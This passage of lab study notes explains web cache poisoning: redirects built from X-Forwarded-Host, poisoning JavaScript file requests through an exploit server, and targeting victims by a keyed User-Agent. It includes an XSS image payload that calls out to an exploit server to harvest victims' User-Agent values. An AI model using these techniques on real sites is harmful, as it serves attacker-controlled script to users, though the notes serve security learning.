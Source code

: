 * The application will redirect the request to HTTPs and will use the value in the X-Forwarded-Host header as the domain in the Location response HTTP header.

   * Example:  Location: https://example.com/{whatever-path-was-in-the-request-line}

* If there is a JavaScript file endpoint in the application, this request can be poisoned so that the application grabs the malicious code from the Exploit Server.  The reason we want to use a JavaScript file endpoint, is because the requests to these files are typically automatically triggered as soon as the user loads the application and the Exploit Server can be used to host malicious code using the same file path.

    * Example: In the Exploit Server, we'll create the same file path so the application functions properly and inject malicious code from our server.

        * Normal path in app: ->   lab-domain.net/lab/source.js

        * Use same path in exploit server: ->   exploit-server.net/lab/source.js


<br><br>

### __Targeted web cache poisoning using an unknown header__

* Use Burp Extension Param Miner to identify any arbitrary unkeyed headers.

* Scenario:

* The application is using the value of an unkeyed header inside of a “src” attribute in a \<script\> tag, as the domain value.

* The application’s response includes the header:  Vary: User-Agent

* This means that the application is using the User-Agent header as a keyed header and based on the value of it, will return different responses.  For example, mobile users vs desktop users may have different User-Agents and a different response will be served.

* In order to figure out a user’s User-Agent value that is most visited in the application, find an XSS vulnerability in the application and include a payload that will reach out to the Exploit Server, then review the logs to determine the victim user's User Agent value:

    * Example:

```html
<img src="https://exploit-server" />
```

* Once the User-Agent is grabbed from the logs for a victim user that was attacked with the XSS, use the following headers to poison the cache for example. Note:  The X-Host header was identified by the Param Miner extension:

    * X-Host:  example.com

    * User-Agent: victim-user’s-value

* Because the User-Agent header is "keyed", whenever a user with that same User-Agent makes a request to the application, the malicious response will be served back to them.

* Use the Exploit Server to host malicious XSS payload using the same file path as the "X-Host" is being injected to.
